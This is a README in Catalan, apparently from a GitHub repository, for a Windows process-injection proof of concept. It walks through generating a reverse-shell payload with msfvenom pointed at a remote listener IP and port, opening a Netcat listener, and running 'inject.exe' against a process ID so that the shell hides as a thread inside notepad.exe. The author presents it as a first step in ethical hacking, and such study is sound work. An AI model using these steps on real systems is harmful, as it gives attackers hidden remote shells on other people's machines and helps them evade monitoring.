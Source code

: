 ## Inject
Simple windows process code injection

## POC
El repte està en injectar un tros de codi executable dins un procés que ja es troba en execució. D'aquesta manera, el codi queda ocultat dins l'arbre de processos, com un fil d'execució dins un procés conegut, com per exemple, explorer.exe, notepad.exe, calc.exe, etc. 

## Descripció
En el repositori trobem una solució en c++ que mitjanant l' API de windows injecta codi en un procés que rep per la línia de comandes. El codi a injectar es troba en una variable **shellcode** en format de Bytecode. En l'exemple he utilitzat un petit codi que executa una shell inversa (reverse shell) de 6u bits (x64). Aquest codi, pot ser qualsevol cosa que se’ns passi pel cap. Però, ha de ser petit, quan més petit millor, ja que s'injecta en la memòria del procés. Podem trobar molt codi d'exemple per internet, un bon lloc és
https://www.exploit-db.com/shellcodes.

## Cas d'ús
El ByteCode (https://es.wikipedia.org/wiki/Bytecode) que utilitzat jo, no és funcional en qualsevol estació de treball, ja que està fet a mida perquè es connecti a un ordinador remot que jo he utilitzat.
Per fer la prova, calen dos ordinadors. Jo he utilitzat un Kali/linux per generar el ByteCode i per obrir un Netcat escoltat en un port (4444), on si tot va bé és connectarà el procés injectat.

Per generar el ByteCode he utilitzat una utilitat **msfvenom** del Framework Metasploit (https://www.metasploit.com/), instal.lat a Kali. Té moltes opcions, es digne d'estudi. Pot fer sortides de codi per diferents llenguatges i tecnologies. Pel cas que ens toca:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[port] -f c

Ex:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.28.123.152 LPORT=4444 -f c
```
La sortida la assignem a la variable **shellcode**. Tot seguit en un terminal de la Kali, engeguem el Netcat escoltant en el port triat.
```
nc -llvp 4444
```
Aquí, si tot va bé, és on ens trobarem una shell de windows de PC on hem injectat el codi.

Ara el en PC windows, on hi tenim el nostre programa **inject.exe**, engeguem per exemple el **notepad.exe**. Amb l'explorador de processos de windows, mirem el número de procés del **notepad.exe** (No tanquem l’arbre de processos, perquè això podem observar els fils d'execució que té). Tot seguit executem:
```
inject.exe [PID Notepad.exe]
Ex:
inject.exe 12345
```
Si tot ha anat bé, al Kali tenim una shell del windows amb els permisos d'usuari que té el procés del Notepad.exe a l'estació Windows. I a l'arbre de processos, un fil penjant del **Notepad.exe**

A partir d'aquí imaginació (no vull donar idees). És un pas necessari si et vols iniciar en el Hacking Ètic.

**La cançó** (Sempre escolto música quan escric, programo, penso en solucions...)

https://www.youtube.com/watch?v=bwNzGT-UX7c



